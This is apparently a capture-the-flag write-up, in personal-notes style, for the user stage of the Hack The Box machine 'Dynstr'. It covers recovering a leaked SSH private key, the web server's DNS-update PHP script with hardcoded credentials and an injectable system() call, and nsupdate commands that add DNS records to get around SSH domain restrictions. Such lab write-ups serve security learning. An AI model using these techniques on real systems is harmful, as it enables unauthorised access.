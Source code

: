 # User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![[Pasted image 20211017074518.png]]

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![[Pasted image 20211017075036.png]]

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![[Pasted image 20211017084635.png]]

[[Root]]
